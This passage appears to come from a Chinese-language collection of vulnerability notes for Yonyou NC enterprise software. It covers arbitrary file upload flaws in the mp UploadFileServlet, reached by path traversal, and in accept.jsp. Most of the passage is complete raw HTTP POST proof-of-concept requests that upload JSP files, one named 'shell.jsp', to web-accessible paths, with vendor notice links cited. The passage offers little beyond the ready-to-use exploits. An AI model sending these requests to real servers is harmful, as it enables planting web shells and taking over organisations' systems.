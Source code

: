 上传路径：/uapim/static/pages/test/head.jsp

https://security.yonyou.com/#/noticeInfo?id=364

#### mp文件上传漏洞

hotwebs\mp\WEB-INF\lib\uap.mp.core-0.1.0.jar!\com\yonyou\uap\mp\controller\UploadFileServlet.class

```
POST /mp/login/../uploadControl/uploadFile HTTP/1.1
Host: 192.168.111.137:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: */*
Cache-Control: no-cache
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------166174900219260261099360
Content-Length: 227

----------------------------166174900219260261099360
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: application/octet-stream

123123
----------------------------166174900219260261099360--
```

上传路径：/mp/uploadFileDir/shell.jsp

https://security.yonyou.com/#/noticeInfo?id=342

#### accept.jsp任意文件上传漏洞

/aim/equipmap/accept.jsp

```
POST /aim/equipmap/accept.jsp HTTP/1.1
Host: 192.168.111.137:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: */*
Cache-Control: no-cache
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------166174900219260261099360
Content-Length: 346

----------------------------166174900219260261099360
Content-Disposition: form-data; name="fname"

webapps/nc_web/123.jsp
----------------------------166174900219260261099360
Content-Disposition: form-data; name="file"; filename="aaa"
Content-Type: application/octet-stream

test123
----------------------------166174900219260261099360--
```
